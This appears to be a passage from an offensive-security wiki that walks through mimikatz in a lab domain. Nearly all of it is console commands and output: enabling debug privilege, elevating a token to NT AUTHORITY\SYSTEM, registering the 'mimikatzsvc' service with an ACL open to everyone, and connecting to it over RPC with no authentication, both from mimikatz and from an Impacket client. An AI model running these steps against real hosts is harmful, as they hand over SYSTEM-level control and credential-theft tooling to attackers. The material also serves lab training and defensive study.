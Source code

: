 # +

It installs `mimikatzsvc` by issuing `rpc::server service::me exit`. 

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 118309013   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 118617400   NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```text
mimikatz # service::+
[*] 'mimikatzsvc' service not present
[+] 'mimikatzsvc' service successfully registered
[+] 'mimikatzsvc' service ACL to everyone
[+] 'mimikatzsvc' service started
```

![Successful installation of mimikatzsvc](../../../.gitbook/assets/2.png)

The same methods as demonstrated on the `rpc::connect` section can be used to authenticate, without providing a username and password, over RPC:

```text
mimikatz # rpc::connect /remote:192.168.0.10 /noauth
[rpc] Remote   : 192.168.0.10
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!

mimikatz # *hostname
Win10.hacklab.local (WIN10)
```

```text
# python3 mimikatz.py 192.168.0.10
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
Win10.hacklab.local (WIN10)
```

